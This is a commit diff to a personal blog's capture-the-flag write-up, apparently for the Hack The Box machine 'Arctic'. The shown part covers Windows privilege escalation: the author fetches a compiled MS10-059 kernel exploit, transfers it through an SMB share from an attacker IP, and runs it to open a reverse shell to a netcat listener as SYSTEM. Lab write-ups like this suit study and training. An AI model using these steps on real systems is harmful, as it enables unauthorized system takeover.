

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-29-arctic.md, in a window 1280 px wide and 1400 px high, scrolled down 3528 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-29-arctic.md
+++ b/_posts/2020-07-29-arctic.md
@@ -144,45 +144,37 @@
 [*] done
 ```
 
-We have 3 non-Metasploit exploits. I tried MS11–011 but I didn’t get a privileged shell. MS10–059 did work! I found an already compiled executable for it here [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059).
+I can see 4 non-Metasploit exploits. MS12-037 is about Internet Explorer, I don't care, I tried MS11–011 but I didn’t get a privileged shell. MS10–059 did work ! I found an already compiled executable for it here [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059).
 
 ```
 wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
 ```
 
-
-
-
+Start a smbserver for easy transfer :
 
 ```
 sudo smbserver.py liodeus ./
 ```
 
-
+Copy over the exploit :
 
 ```
 copy \\10.10.14.10\liodeus\MS10-059.exe .
 ```
 
-
-
-
+Start another nc listener :
 
 ```
 nc -lvp 12345
 ```
 
-
-
-
+Then launch the exploit like so :
 
 ```
 MS10-059.exe 10.10.14.10 12345
 ```
 
-
-
-
+Go see the listener :
 
 ```
 nc -lvp 12345
@@ -197,7 +189,7 @@
 nt authority\system
 ```
 
-
+And voila ! I'm nt authorit\system, go read the flags now !
 
 ## Flags
 
````
